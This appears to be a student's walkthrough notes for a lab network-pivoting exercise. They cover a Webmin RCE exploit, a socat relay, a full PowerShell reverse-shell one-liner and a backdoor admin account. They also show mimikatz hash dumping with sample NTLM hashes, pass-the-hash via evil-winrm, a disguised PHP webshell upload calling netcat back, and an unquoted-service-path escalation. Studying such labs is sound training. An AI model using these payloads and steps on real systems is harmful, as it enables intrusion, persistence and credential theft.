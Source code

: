 Machine About pivoting.

Looking at the nmap result, it ran the Webmin 1.890 which is vulnerable to CVE-2019-15107 Unauthorized remote code execution. Cloning https://github.com/MuirlandOracle/CVE-2019-15107.git exploit and use it to get reverse shell as root.

Get the root ssh key for persistence `/root/.ssh/id_rsa`

Copy static nmap to the `.200` host. Ping scan reveal a `.100` and `.150` host.
The `.150` host have open ports, refer to the nmap page.

Connect to the target using .200 as a pivot with a sshuttle proxy:
`sshuttle -r root@10.200.196.200 --ssh-cmd "ssh -i root_key.rsa" 10.200.196.0/24 -x 10.200.196.200`

Port 80 in `.150` is a gitstack, which is vulnerable and the exploit is available in searchsploit. The 43777 EDB can be used, after editing the ip and the name of the payload. This create a Remote code execution.

The .150 host cannot connect to our server, so we need to set up a relay in .200 with socat.
Open the firewall with: `firewall-cmd --zone=public --add-port PORT/tcp`
`./socat tcp-l:41822 tcp:10.50.193.140:9001 &` on our compromised host.
Listen on port 9001 in our attacker.

The payload for opening power shell:
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.196.200',41822);$nstream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
and url encode it.

Create an Admin user with:
```powershell.exe
net user NetherPenguin NwreathPenguin /add
net localgroup Administrators USERNAME /add  #add to Administrators group
net localgroup "Remote Management Users" USERNAME /add #and Remote users
```

Connect to the .150 host with evil-winrm:
```bash
gem install evil-winrm
evil-winrm -u USERNAME -p PASSWORD -i TARGET_IP
```

or RDP with:
```bash
xfreerdp /v:IP /u:USERNAME /p:PASSWORD
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```
optons:
-   `/dynamic-resolution` -- allows us to resize the window, adjusting the resolution of the target in the process
-   `/size:WIDTHxHEIGHT` -- sets a specific size for targets that don't resize automatically with `/dynamic-resolution`
-   `+clipboard` -- enables clipboard support
-   `/drive:LOCAL_DIRECTORY,SHARE_NAME` -- creates a shared drive between the attacking machine and the target. This switch is insanely useful as it allows us to very easily use our toolkit on the remote target, and save any outputs back directly to our own hard drive. In essence, this means that we never actually have to create any files on the target. For example, to share the current directory in a share called `share`, you could use: `/drive:.,share`, with the period (`.`) referring to the current directory

With this we have some tools like mimikatz in `\\tsclient\share`.
In mimikatz give ourself debug privilege and elevate into system:
```cmd
privilege::debug
token::elevate

lsadump::sam #dump local password
```

get NTLM HASH:
Administrator:37db630168e5f82aafa8461e05c6bbd1
Thomas:02d90eda8f6b6b06c32d5f207831101f:i<3ruby

use this to get persistent access:
`evil-winrm -u Administrator -H ADMIN_HASH -i IP`

From this access, we can use script to gain further access, either with copying through evil-winrm `upload` or `download`, or just loading the script directly with `-s ` like this:
`evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.196.150 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/`
`-s` load scripts in the supplied directory on memory.
Just type the name of the script to load it.

Scanning the last host with Invoke-PortScan, we get port 80 and 3389 open.
Use chisel to be able to open the webserver on the last host. Don't forget to open a port first with:
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

access the .100 webserver with foxyproxy, you can see that it is the same website as in the public webserver.

Recall that he is saying that the website is deployed from git. As we have access to the gitserver machine, we can search for the repositories. It is located in `C:\Gitstack\repositories\Website.git`. download that folder to our machine.

We can use GitTools from `git clone https://github.com/internetwache/GitTools` to manipulate the repositories like recreate it in a readable format.

We found the latest commit by looking at the commit-meta.txt. The last commit have a php file that's used for file upload. Its located on `website/resources` we can authenticate with Thomas account in gitserver.
To upload we need to pass the filter that check for the extension(bypassed by making additional extension) and checking for dimension in the exif.
The second filter can be bypassed by attaching our payload after an actual image by using `exiftool` like this:
`exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-USERNAME.jpeg.php`
Creating an obfuscated webshell payload, we then upload an obfuscated netcat and run it on powershell to get a shell using this link:
`10.200.196.100/resources/uploads/shell-NetherPenguin.jpg.php?wreath=powershell.exe c:\\windows\\temp\\nc-NetherPenguin.exe 10.50.193.140 8000 -e cmd.exe`


As this machina have AV active(windows defender), we need to do a manual enumeration including:
```cmd
whoami /priv #check the user privilege
whoami /groups #check the user group
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows" #check the service running, excluding from C:\Windows
```
Getting a unquoted service path vulnerability, we create an exploit using a mono package.(the wrapper directory). After compiling it, we transfer it using impacket with this command:
```bash
sudo git clone https://github.com/SecureAuthCorp/impacket /opt/impacket && cd /opt/impacket && sudo pip3 install . #install impacket in /opt/impacket
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword #open smbserver
```

connect to the impacket smb in windows with:
`net use \\10.50.193.140\share /USER:user s3cureP@ssword`

Copy the wrapper.exe to temp with: `copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe`
Then close the smb with: `net use \\ATTACKER_IP\share /del`

After testing that our payload works, we now try to use the unquoted service exploit to get root.

!!! Learn how to make pseudoshell from RCE !!!